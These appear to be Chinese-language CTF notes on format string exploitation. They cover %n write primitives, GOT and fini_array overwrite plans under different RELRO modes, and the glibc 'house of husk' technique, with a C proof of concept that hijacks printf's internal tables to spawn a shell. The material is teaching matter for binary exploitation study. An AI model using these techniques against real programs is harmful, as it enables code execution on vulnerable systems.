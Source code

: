 # 格式化字符串漏洞

## 一般格式化字符串利用

```C
printf("%16$hhn");  // char 类型
printf("%16$hn");   // short类型
printf("%16$n");    // int 类型
printf("%16$ln");   // long 类型
printf("%16$lln");  // long long 类型

printf("%*18$c");   // 输出第18个参数提供的字符个数(int类型)
```

## NULL RELRO防护模式

### 含有后门函数

1. 修改printf_got为后门函数，修改fini_array到main，程序在exit时会返回到main
2. printf("/bin/sh")即可触发漏洞

### 不含有后门函数

1. 泄露栈地址和libc地址，修改fini_array到main
2. 修改返回地址到one_gadget

## 开启RELRO防护模式

泄露栈，libc和elf地址，栈中爆破未初始化栈空间，使得有一个指向ret的栈地址后修改为main重新指向printf写入ROP

## house of husk

### 有效版本

`glibc 2.23 ~ 2.35`

### 原理

`printf`函数直接调用的`__vfprintf_internal`
`__vfprintf_internal`函数在处理带`$`的格式化字符串时会调用`printf_positional`来处理, 当`__printf_function_table != NULL || __printf_modifier_table != NULL || __printf_va_arg_table != NULL`时也会调用`printf_positional`
`printf_positional`会调用`__parse_one_specmb`来解析
`__parse_one_specmb`有如下代码:

```C
if (__builtin_expect(__printf_function_table == NULL, 1) ||
    spec->info.spec > UCHAR_MAX ||
    __printf_arginfo_table[spec->info.spec] == NULL ||
    (int)(spec->ndata_args = (*__printf_arginfo_table[spec->info.spec])(&spec->info, 1, &spec->data_arg_type, &spec->size)) < 0)
```

### 利用思路

1. 修改`printf_function_table`使其不为0
2. 修改`printf_arginfo_table`指向一个伪造的函数列表，并且`printf_arginfo_table['c'] = backdoor`
3. `printf("%c");`即可触发漏洞

### 示例

```C
#include <stdio.h>
#include <stdlib.h>

void backdoor()
{
    system("/bin/sh");
}

int main()
{
    /* 获取地址 */
    size_t libc_base = &system - 0x50d70;
    // p/x &__printf_function_table
    size_t *printf_function_table = libc_base + 0x21c9c8;
    // p/x &__printf_arginfo_table
    size_t *printf_arginfo_table = libc_base + 0x21b8b0;

    // 伪造函数列表
    size_t *fun;
    fun = malloc(0x100);
    fun['d'] = (size_t)backdoor;
    // 触发漏洞条件
    *printf_function_table = 1;
    *printf_arginfo_table = (size_t)fun;

    // attack
    printf("%d", 0x123456);
    return 0;
}
```

